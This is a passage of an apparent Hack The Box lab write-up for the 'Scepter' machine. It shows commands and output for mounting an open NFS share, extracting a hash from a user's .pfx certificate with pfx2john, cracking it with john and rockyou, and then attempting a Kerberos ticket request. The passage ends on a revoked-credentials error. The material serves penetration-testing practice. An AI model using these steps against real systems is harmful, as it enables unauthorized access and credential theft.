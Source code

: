 But we can find something interesting from port `2049` service:
```
nlockmgr (Network Lock Manager) is a service related to NFS (Network File System), which is used to implement the file locking mechanism in the network file system.
```

That means we can use `mount` to interact with that
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ showmount -e 10.10.11.65  
Export list for 10.10.11.65:
/helpdesk (everyone)
```
We can mount it and check what files in it:
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ mkdir /tmp/helpdesk
                                                                                      
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ sudo mount -t nfs 10.10.11.65:/helpdesk /tmp/helpdesk

┌──(root㉿localhost)-[/home/wither/Templates/htb-labs/Scepter]
└─# ls -al /tmp/helpdesk         
total 21
drwx------  2 nobody nogroup   64 Nov  2  2024 .
drwxrwxrwt 24 root   root     560 Jul 18 15:28 ..
-rwx------  1 nobody nogroup 2484 Nov  2  2024 baker.crt
-rwx------  1 nobody nogroup 2029 Nov  2  2024 baker.key
-rwx------  1 nobody nogroup 3315 Nov  2  2024 clark.pfx
-rwx------  1 nobody nogroup 3315 Nov  2  2024 lewis.pfx
-rwx------  1 nobody nogroup 3315 Nov  2  2024 scott.pfx
```

The certificate and key files seem to be intended for us to authenticate, we can use `pfx2john` to help us crack them
```
┌──(root㉿localhost)-[/tmp/helpdesk]
└─# pfx2john lewis.pfx > /home/wither/Templates/htb-labs/Scepter/lewis.hash

┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ john lewis.hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 128/128 ASIMD 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 256 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
newpassword      (lewis.pfx)     
1g 0:00:00:00 DONE (2025-07-18 15:34) 1.754g/s 14371p/s 14371c/s 14371C/s newzealand..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

But when we use this credential to log in, an error occurs
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Scepter]
└─$ impacket-getTGT scepter.htb/'e.lewis':'newpassword'     
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
```

